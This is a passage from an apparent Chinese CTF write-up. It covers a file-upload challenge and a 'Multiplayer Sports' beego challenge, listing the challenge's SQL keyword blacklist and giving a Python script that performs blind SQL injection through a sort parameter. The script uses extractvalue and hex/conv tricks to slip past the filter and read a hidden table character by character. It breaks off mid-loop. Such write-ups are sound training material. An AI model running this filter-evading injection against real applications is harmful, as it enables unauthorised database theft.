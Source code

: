 但是当我们直接上传的时候她会生成一个，哪怕没上传成功

![](https://raw.githubusercontent.com/Explorersss/photo/master/20200523095410.png)

直接拿来用访问show.php就拿到flag了



##  Multiplayer Sports 

 Powered by beego 1.12.1 

http://183.129.189.60:10112/?by=desc



黑名单:`',",!,#,$,&,+,;,<,=,>,?,@,\,|,if,exp,info,ascii,ord,sys,count,order,by,author,where`

给了个`hint table`,不知道啥意思

```python

import requests
import time
import string


def sqlinj(num):

    burp0_url = "http://183.129.189.60:10117/"
    param={"by":",extractvalue(1,(case when ((select conv(right(left(hex( (select group_concat(a,b) from (select 1`a`,2`b` union select * from hint )`ff` ) ),{POS}),2),16,10)  )-{GUESS}) then 1 ELSE user() end))".format(POS=pos,GUESS=num)}
    burp0_cookies = {"PHPSESSID": "Q/+BAwEBBVVzZXJzAf+CAAEEAQhVc2VybmFtZQEMAAEIUGFzc3dvcmQBDAABCEZpbGVuYW1lAQwAAQRTaWduAQwAAABj/4IBA2FhYQEDYmJiATIuL3VwbG9hZHMvM2UxMDRjYWU2NDAxZDI1NzY2NzZiMmM2ODk3MzE1NGQvcTEuanBnASBhMjVhY2E4OGZkOGYzYjYyMTkyZTYxNzgwMDYzNWQ4NAA=", "_xsrf": "azI3QUxLb3JwTDh5MFI5aXlPM1ZOQ2Y4UnNUSkVnY3E=|1590202537824785027|837f32c5f7f2b6c2a5ad0ffbcc803dff791bb5a078a0b68ea40428f37dfdf2ae"}
    burp0_headers = {"Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7", "Connection": "close"}
    r=requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies,params=param)
    time.sleep(0.5)
    print(param)
    if "/static/img/dundundun.gif" in r.text:
        print("filter ",param)
        exit()
    if "y1ng" in r.text:
        
        return False
    else :
        return True
    



#database: ms
#mysql,sys
#Hint: /Source Password
#table:gtid_executed,sys_config
result="12,Hint: /Source Password: T1Me"
pos=len(result)*2+2

while True:
    flag=False
```